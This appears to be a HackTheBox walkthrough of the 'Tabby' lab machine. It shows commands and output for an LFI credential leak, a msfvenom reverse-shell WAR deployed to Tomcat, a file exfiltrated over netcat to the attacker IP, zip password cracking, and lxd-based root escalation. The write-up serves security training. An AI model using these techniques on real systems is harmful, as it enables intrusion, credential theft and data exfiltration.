




---
search:
  exclude: true
---
# Tabby Writeup

## Introduction :

Tabby is an easy Linux box released back in June 2020.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB]
    → nmap -vvv -p- 10.10.10.194 --max-retries 0 -Pn --min-rate=500 2>/dev/null | grep Discovered
    Discovered open port 22/tcp on 10.10.10.194
    Discovered open port 8080/tcp on 10.10.10.194
    Discovered open port 80/tcp on 10.10.10.194
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → nmap -sCV -p 22,8080,80 10.10.10.194
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-02 07:52 CEST
    Nmap scan report for 10.10.10.194
    Host is up (0.037s latency).
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
    |   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
    |_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
    80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: Mega Hosting
    8080/tcp open  http    Apache Tomcat
    |_http-title: Apache Tomcat
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 8.24 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80:

So here we found a domain name and a hyperlink leading to **megahosting.htb** so let's add it to our hosts file:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → sudo -i
    [sudo] password for nothing:
    
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.194 megahosting.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    

And when we click the hyperlink to the data breach we get the following:

Here we see that this is a php file with the **file** parameter and let's try to see if there is any LFI by trying to read system files such as **/etc/passwd** :
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → curl http://megahosting.htb/news.php\?file\=../../../../../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
    systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
    systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
    messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
    syslog:x:104:110::/home/syslog:/usr/sbin/nologin
    _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
    tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
    uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
    tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
    landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
    pollinate:x:110:1::/var/cache/pollinate:/bin/false
    sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
    systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
    lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
    tomcat:x:997:997::/opt/tomcat:/bin/false
    mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
    **ash:x:1000:1000:clive:/home/ash:/bin/bash**
    
    
    

Here we see that the **file** php arguement is vulnerable to LFI, and we now know that **ash** is a valid user on this box. Now let's move over to port 8080 with tomcat:

Here we have a tomcat9 instance, let's scan for hidden directories there with ffuf:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → ffuf -u http://10.10.10.194:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,204,301,302,307,401 -t 50
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v1.3.1 Kali Exclusive 
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.10.194:8080/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 50
     :: Matcher          : Response status: 200,204,301,302,307,401
    ________________________________________________
    
    docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
    examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
    host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
    index.html              [Status: 200, Size: 1895, Words: 201, Lines: 30]
    **manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]**
    :: Progress: [4686/4686] :: Job [1/1] :: 1211 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
    

And here we found the manager page with the 302 status code, so we need to authenticate there:

Now obviously putting in admin/admin doesn't get us in, however when we close it to get the 401 Unauthorized error code we get something interesting:

Here we see the original credentials **tomcat:s3cret** , however they got changed obviously, so instead we shift our attention to the fact that the credentials are stored in the **conf/tomcat-users.xml** file, so let's use the LFI to get it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → curl http://megahosting.htb/news.php\?file\=../../../../usr/share/tomcat9/conf/tomcat-users.xml
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → curl http://megahosting.htb/news.php\?file\=../../../../usr/share/tomcat9/etc/tomcat-users.xml
    <****?xml version="1.0" encoding="UTF-8"?> <****!--
      Licensed to the Apache Software Foundation (ASF) under one or more
      contributor license agreements.  See the NOTICE file distributed with
      this work for additional information regarding copyright ownership.
      The ASF licenses this file to You under the Apache License, Version 2.0
      (the "License"); you may not use this file except in compliance with
      the License.  You may obtain a copy of the License at
    
          http://www.apache.org/licenses/LICENSE-2.0
    
      Unless required by applicable law or agreed to in writing, software
      distributed under the License is distributed on an "AS IS" BASIS,
      WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
      See the License for the specific language governing permissions and
      limitations under the License.
    --> <****tomcat-users xmlns="http://tomcat.apache.org/xml"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
                  version="1.0"> <****!--
      NOTE:  By default, no user is included in the "manager-gui" role required
      to operate the "/manager/html" web application.  If you wish to use this app,
      you must define such a user - the username and password are arbitrary. It is
      strongly recommended that you do NOT use one of the users in the commented out
      section below since they are intended for use with the examples web
      application.
    --> <****!--
      NOTE:  The sample user and role entries below are intended for use with the
      examples web application. They are wrapped in a comment and thus are ignored
      when reading this file. If you wish to configure these users for use with the
      examples web application, do not forget to remove the that surrounds
      them. You will also need to set the passwords to something appropriate.
    -->
    <****!-- <****role rolename="tomcat"/> <****role rolename="role1"/> <****user username="tomcat" password=" <****must-be-changed>" roles="tomcat"/> <****user username="both" password=" <****must-be-changed>" roles="tomcat,role1"/> <****user username="role1" password=" <****must-be-changed>" roles="role1"/>
    --> <****role rolename="admin-gui"/> <****role rolename="manager-script"/> <****user**username="tomcat" password="$3cureP4s5w0rd123!"** roles="admin-gui,manager-script"/>
    <****/tomcat-users>

And here we found credentials for tomcat: **tomcat:$3cureP4s5w0rd123!**
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → ffuf -u http://10.10.10.194:8080/manager/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200,204,301,302,307,401 -t 50
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v1.3.1 Kali Exclusive 
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://10.10.10.194:8080/manager/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 50
     :: Matcher          : Response status: 200,204,301,302,307,401
    ________________________________________________
    
    html                    [Status: 401, Size: 2499, Words: 457, Lines: 64]
    images                  [Status: 302, Size: 0, Words: 1, Lines: 1]
    status                  [Status: 401, Size: 2499, Words: 457, Lines: 64]
    **text                    [Status: 401, Size: 2499, Words: 457, Lines: 64]**
    
    

Here we get the /manager/text URI and if we lookup the tomcat documentation, this is where the sysadmin can execute commands, so let's investigate it, and we can do that from curl:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → curl -u tomcat:\$3cureP4s5w0rd123! http://10.10.10.194:8080/manager/text/list
    OK - Listed applications for virtual host [localhost]
    /:running:0:ROOT
    /examples:running:0:/usr/share/tomcat9-examples/examples
    /host-manager:running:0:/usr/share/tomcat9-admin/host-manager
    /manager:running:0:/usr/share/tomcat9-admin/manager
    /docs:running:0:/usr/share/tomcat9-docs/docs
    
    

So from here, just like for the [Kotarak](../Hard/7.md) box, we can upload a malicious WAR file to get us a shell, we're going to generate it using msfvenom:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → msfvenom -l payloads | grep java\
    pipe>
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → msfvenom -l payloads | grep java
        java/jsp_shell_bind_tcp                             Listen for a connection and spawn a command shell
        java/jsp_shell_reverse_tcp                          Connect back to attacker and spawn a command shell
        java/meterpreter/bind_tcp                           Run a meterpreter server in Java. Listen for a connection
        java/meterpreter/reverse_http                       Run a meterpreter server in Java. Tunnel communication over HTTP
        java/meterpreter/reverse_https                      Run a meterpreter server in Java. Tunnel communication over HTTPS
        java/meterpreter/reverse_tcp                        Run a meterpreter server in Java. Connect back stager
        java/shell/bind_tcp                                 Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
        java/shell/reverse_tcp                              Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
        java/shell_reverse_tcp                              Connect back to attacker and spawn a command shell
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.13 LPORT=9001 -f war > thanksippsec.war
    Payload size: 1096 bytes
    Final size of war file: 1096 bytes
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → file thanksippsec.war
    thanksippsec.war: Zip archive data, at least v2.0 to extract
    
    

Now that we created our war file, let's upload it and deploy it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    

Now the trick here is that unlike on the Kotarak box, here we only have access to the commandline's **/manager/text** so we're going to upload our war file and deploy it through the commandline thanks to curl: 
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → curl -u tomcat:\$3cureP4s5w0rd123! http://10.10.10.194:8080/manager/text/deploy\?path\=/webshell\&update;\=true -T thanksippsec.war
    OK - Deployed application at context path [/webshell]
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → curl -u tomcat:\$3cureP4s5w0rd123! http://10.10.10.194:8080/webshell/
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → nc -lvnp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.194] 34800
    id
    uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
    
    

And we got a reverse shell connection! We are now able to execute commands as the tomcat user. Let's first upgrade our shell to a fully interactive TTY:
    
    
    # check which commands we can use
    
    which python python3 curl wget bash
    /usr/bin/python3
    /usr/bin/curl
    /usr/bin/wget
    /usr/bin/bash
    
    # spawn a TTY with python3's pty module
    
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    tomcat@tabby:/var/lib/tomcat9$
    
    # CTRL Z to background the reverse shell netcat process
    
    tomcat@tabby:/var/lib/tomcat9$ ^Z
    [1]  + 22233 suspended  nc -lvnp 9001
    
    # set the stty as raw with the -echo flags, then foreground the process
    
    [ 10.10.14.13/23 ] [ /dev/pts/74 ] [~/HTB/Tabby]
    → stty raw -echo ; fg
    [1]  + 22233 continued  nc -lvnp 9001
    
    # export the TERM and SHELL environment variables, and set the TTY right (for nano /vim stuff)
    
                                   export TERM=screen-256color
    tomcat@tabby:/var/lib/tomcat9$ export SHELL=bash
    tomcat@tabby:/var/lib/tomcat9$ stty rows 40 columns 200
    tomcat@tabby:/var/lib/tomcat9$ reset
    
    # and once the terminal has resetted, we are now in a fully interactive reverse shell!
    
    tomcat@tabby:/var/lib/tomcat9$ id
    uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
    
    

Now from here we can upload linpeas.sh to enumerate the box:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → locate linpeas.sh
    /home/nothing/HTB/Admirer/linpeas.sh
    /home/nothing/HTB/OpenAdmin/linpeas.sh
    /home/nothing/HTB/Postman/linpeas.sh
    /home/nothing/HTB/Traverxec/linpeas.sh
    /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → cp /home/nothing/Tools/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh .
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    tomcat@tabby:/var/lib/tomcat9$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-02 08:01:09--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                      100%[=============================================================================================================>] 333.85K   699KB/s    in 0.5s
    
    2021-06-02 08:01:10 (699 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    tomcat@tabby:/var/lib/tomcat9$ chmod +x /tmp/peas.sh
    
    tomcat@tabby:/var/lib/tomcat9$ /tmp/peas.sh
    
    

` 

Let linpeas.sh run, then as you scroll down you will end up on a certain backup zip file:

Coincidentally, it seems that the backup zip file is owned by the ash user, and there seems to be a copy of it in the /tmp folder, let's check if they are the same:
    
    
    tomcat@tabby:/var/lib/tomcat9$ md5sum /var/www/html/files/16162020_backup.zip /tmp/16162020_backup.zip
    f0a0af346ad4495cfdb01bd5173b0a52  /var/www/html/files/16162020_backup.zip
    f0a0af346ad4495cfdb01bd5173b0a52  /tmp/16162020_backup.zip
    
    

And indeed they are the same! let's open it locally and see what it contains, we can use netcat to get the zipfile from the box:
    
    
    
    tomcat@tabby:/tmp$ md5sum 16162020_backup.zip
    f0a0af346ad4495cfdb01bd5173b0a52  16162020_backup.zip
    
    tomcat@tabby:/var/lib/tomcat9$ which nc
    /usr/bin/nc
    
    tomcat@tabby:/tmp$ cat 16162020_backup.zip | nc 10.10.14.13 9002
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → nc -lvnp 9002 > backup.zip
    listening on [any] 9002 ...
    connect to [10.10.14.13] from (UNKNOWN) [10.10.10.194] 57326
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → md5sum backup.zip
    f0a0af346ad4495cfdb01bd5173b0a52  backup.zip
    
    

And here we see that the 2 files hashes are identical, this means that we successfully transfered the file back onto our local machine. Let's try to unzip it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → unzip backup.zip
    Archive:  backup.zip
       creating: var/www/html/assets/
    [backup.zip] var/www/html/favicon.ico password:
    password incorrect--reenter:
    password incorrect--reenter:
       skipping: var/www/html/favicon.ico  incorrect password
       creating: var/www/html/files/
    [backup.zip] var/www/html/index.php password:
    
    

But it's password protected, so let's try to crack it using fcrackzip:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → sudo apt install fcrackzip
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → fcrackzip -vuDp /usr/share/wordlists/rockyou.txt backup.zip
    'var/www/html/assets/' is not encrypted, skipping
    found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
    'var/www/html/files/' is not encrypted, skipping
    found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
    found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
    found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
    found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
    checking pw arizon1
    
    PASSWORD FOUND!!!!: pw == admin@it
    
    

And we found the password! so let's unzip it:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → unzip backup.zip
    Archive:  backup.zip
    [backup.zip] var/www/html/favicon.ico password:
      inflating: var/www/html/favicon.ico
      inflating: var/www/html/index.php
     extracting: var/www/html/logo.png
      inflating: var/www/html/news.php
      inflating: var/www/html/Readme.txt
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → tree var
    var
    └── www
        └── html
            ├── assets
            ├── favicon.ico
            ├── files
            ├── index.php
            ├── logo.png
            ├── news.php
            └── Readme.txt
    
    4 directories, 5 files
    
    

The files that were contained are preety much irrelevant, the fact of the matter is that this zip file is supposed to be owned by ash, and we got his potential password. Let's try and see if ash re-used the same password on the box:
    
    
    tomcat@tabby:/tmp$ su ash
    Password:
    ash@tabby:/tmp$ id
    uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
    ash@tabby:/tmp$ cat ~/user.txt
    04XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to privesc to the ash user, and got the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc we can run linpeas once again:
    
    
    ash@tabby:/tmp$ wget http://10.10.14.13:9090/linpeas.sh -O /tmp/peas2.sh
    --2021-06-02 08:19:11--  http://10.10.14.13:9090/linpeas.sh
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas2.sh’
    
    /tmp/peas2.sh                                     100%[=============================================================================================================>] 333.85K   689KB/s    in 0.5s
    
    2021-06-02 08:19:12 (689 KB/s) - ‘/tmp/peas2.sh’ saved [341863/341863]
    
    ash@tabby:/tmp$ chmod +x /tmp/peas2.sh
    ash@tabby:/tmp$ /tmp/peas2.sh
    
    

The difference being that now linpeas is going to try and find the possible paths from the ash user:

Now here we see that the ash user is part of the lxd group, which can be exploited to get a root shell thanks to a lxd-alpine container:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → git clone  https://github.com/saghul/lxd-alpine-builder.git
    Cloning into 'lxd-alpine-builder'...
    remote: Enumerating objects: 35, done.
    remote: Counting objects: 100% (8/8), done.
    remote: Compressing objects: 100% (8/8), done.
    remote: Total 35 (delta 2), reused 2 (delta 0), pack-reused 27
    Receiving objects: 100% (35/35), 21.69 KiB | 1.20 MiB/s, done.
    Resolving deltas: 100% (8/8), done.
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [~/HTB/Tabby]
    → cd lxd-alpine-builder
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Tabby/lxd-alpine-builder]
    → sudo ./build-alpine
    
    [...]
    
    Executing busybox-initscripts-3.2-r2.post-install
    (16/20) Installing scanelf (1.2.8-r0)
    (17/20) Installing musl-utils (1.2.2-r0)
    (18/20) Installing libc-utils (0.7.2-r3)
    (19/20) Installing alpine-keys (2.2-r0)
    (20/20) Installing alpine-base (3.13.5-r0)
    Executing busybox-1.32.1-r6.trigger
    OK: 9 MiB in 20 packages
    
    

Now let's transfer the built tar.gz image onto the box:
    
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Tabby/lxd-alpine-builder]
    → ls -lash alpine-v3.13-x86_64-20210602_1002.tar.gz
    3.2M -rw-r--r-- 1 root root 3.2M Jun  2 10:02 alpine-v3.13-x86_64-20210602_1002.tar.gz
    
    [ 10.10.14.13/23 ] [ /dev/pts/57 ] [HTB/Tabby/lxd-alpine-builder]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    ash@tabby:/tmp$ wget http://10.10.14.13:9090/alpine-v3.13-x86_64-20210602_1002.tar.gz
    --2021-06-02 08:24:46--  http://10.10.14.13:9090/alpine-v3.13-x86_64-20210602_1002.tar.gz
    Connecting to 10.10.14.13:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3256211 (3.1M) [application/gzip]
    Saving to: ‘alpine-v3.13-x86_64-20210602_1002.tar.gz’
    
    alpine-v3.13-x86_64-20210602_1002.tar.gz          100%[=============================================================================================================>]   3.10M   570KB/s    in 5.5s
    
    2021-06-02 08:24:51 (582 KB/s) - ‘alpine-v3.13-x86_64-20210602_1002.tar.gz’ saved [3256211/3256211]
    
    

Say no to all prompts:
    
    
    ash@tabby:/tmp$ lxd init
    Would you like to use LXD clustering? (yes/no) [default=no]: no
    Do you want to configure a new storage pool? (yes/no) [default=yes]: no
    Would you like to connect to a MAAS server? (yes/no) [default=no]: no
    Would you like to create a new local network bridge? (yes/no) [default=yes]: no
    Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: no
    Would you like LXD to be available over the network? (yes/no) [default=no]: no
    Would you like stale cached images to be updated automatically? (yes/no) [default=yes] no
    Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: no
    
    ash@tabby:/tmp$ mv alpine-v3.13-x86_64-20210602_1002.tar.gz alpine.tar.gz
    ash@tabby:/tmp$ lxc image import /tmp/alpine.tar.gz  --alias alpine
    
    ash@tabby:/tmp$ lxc image list
    +--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+
    | ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
    +--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+
    | alpine | 2d59dc1f8e1c | no     | Alpinelinux 3.8 x86_64 (20210601_2225) | x86_64       | CONTAINER | 1.92MB | Jun 1, 2021 at 10:54pm (UTC) |
    +--------+--------------+--------+----------------------------------------+--------------+-----------+--------+------------------------------+
    
    

And once your alpine image got imported, we can launch it to get access to the root files on the server:
    
    
    ash@tabby:/tmp$ lxc init alpine mycontainer -c security.privileged=true
    Creating mycontainer
    
    The instance you are starting doesn't have any network attached to it.
      To create a new network, use: lxc network create
      To attach a network to an instance, use: lxc network attach
    
    ash@tabby:/tmp$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
    Device mydevice added to mycontainer
    ash@tabby:/tmp$ lxc start mycontainer
    ash@tabby:/tmp$ lxc exec mycontainer /bin/sh
    
    ~ # id
    uid=0(root) gid=0(root)
    
    ~ # cat /mnt/root/root/root.txt
    99XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag.

## **Conclusion**

Here we can see the progress graph :

